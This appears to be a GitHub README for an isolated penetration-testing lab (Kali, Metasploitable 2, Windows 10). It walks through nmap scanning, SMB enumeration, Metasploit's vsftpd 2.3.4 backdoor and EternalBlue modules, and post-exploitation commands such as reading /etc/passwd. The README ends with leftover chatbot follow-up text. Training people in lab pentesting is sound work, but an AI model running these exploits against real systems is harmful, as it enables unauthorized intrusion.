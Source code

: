 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Targets-Metasploitable%20%26%20Windows-red?style=for-the-badge" />
</p>


## 🔹 Lab Overview

This guide is designed for **ethical hackers and cybersecurity enthusiasts** to practice penetration testing in a **safe, isolated, and realistic environment**.

**Lab Components:**

| Machine   | OS               | IP Address       | Role                         |
|-----------|-----------------|----------------|------------------------------|
| Attacker  | Kali Linux       | 192.168.142.128 | Pentester machine            |
| Target 1 | Metasploitable 2 | 192.168.142.130 | Vulnerable Linux machine     |
| Target 2 | Windows 10       | 192.168.142.132 | Vulnerable Windows machine   |

**Objectives:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation.
- Practice both Linux and Windows target exploitation in a controlled environment.
- Build a detailed report of findings.

## 🔹 Lab Setup

### 1. Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux VM
- Metasploitable 2 VM
- Windows VM (10/Server)
- Internal network setup for isolation
- Snapshots before testing

### 2. Network Configuration
1. Set all VMs to **Host-Only Adapter** or **Internal Network**.
2. Confirm connectivity between machines:
```bash
ping 192.168.142.130
ping 192.168.142.132
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather info without directly contacting the target:

```bash
whois 192.168.142.130
whois 192.168.142.132
nslookup 192.168.142.132
```

#### Active Recon

* Scan for open ports and services with **Nmap**:

```bash
nmap -sS -Pn 192.168.142.130
nmap -sS -Pn 192.168.142.132
```

* Detailed scanning with service detection:

```bash
nmap -A -p- 192.168.142.130
nmap -A -p- 192.168.142.132
```

---

### Step 2: Enumeration

#### Linux Target

* Identify services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP Banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux 192.168.142.130
```

#### Windows Target

* SMB enumeration:

```bash
smbclient -L \\192.168.142.132 -U Administrator
```

* RDP/SMB service detection:

```bash
nmap -p 3389,445 -sV 192.168.142.132
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to find known exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit ms17-010
```

* Metasploit module usage example:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

---

### Step 4: Exploitation

#### Linux Target

* Exploit FTP vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

#### Windows Target

* Exploit SMB vulnerability:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

* Gain shell access:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Linux target:

```bash
uname -a
cat /etc/passwd
ifconfig
sudo -l
```

* Windows target:

```powershell
systeminfo
net user
whoami /priv
```

* Extract sensitive information or pivot to other machines (in lab only).

---

### Step 6: Reporting

Document all findings with screenshots, PoCs, and mitigation steps.

**Sample Table:**

| Vulnerability | Exploit Used  | Impact                | Mitigation                      |
| ------------- | ------------- | --------------------- | ------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access   | Upgrade FTP / Disable anonymous |
| SMB MS17-010  | EternalBlue   | Remote Code Execution | Apply Windows Update / Patch    |

---

## 🔹 Recommended Tools

* **Kali Linux Tools:** Nmap, Netcat, Metasploit, Enum4linux, Nikto, Dirb
* **Windows Testing Tools:** PowerShell, CrackMapExec, SMBMap
* **Analysis Tools:** Wireshark, Burp Suite

---

## 🔹 Best Practices

* Always take VM snapshots before testing.
* Keep the lab **isolated from the internet**.
* Use only lab IP addresses to avoid accidental attacks.
* Document every step carefully for reporting.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [MS17-010 EternalBlue](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Do **NOT** perform penetration testing on unauthorized networks. Unauthorized testing is illegal and unethical.

```

---

If you want, I can also **add rich visuals, diagrams, folder structures, and GitHub badges for tools, OS, and steps**—so it becomes a **full professional lab README.md** ready to impress on GitHub.  

Do you want me to enhance it with visuals and structure?
```
